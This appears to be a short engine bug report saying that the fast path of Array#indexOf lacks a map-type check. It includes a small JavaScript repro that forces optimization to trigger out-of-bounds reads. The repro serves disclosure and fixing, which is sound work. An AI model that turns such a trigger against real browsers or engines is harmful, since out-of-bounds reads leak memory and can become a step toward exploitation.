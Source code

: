 Fast-path of Array#indexOf does not check map type, this allows OOB reads.

Repro:

const o = {x:9};
o.__proto__ = Array.prototype;

function foo(o) {
  return o.indexOf(undefined);
}
print(foo(o));
print(foo(o));
%OptimizeFunctionOnNextCall(foo);
print(foo(o));
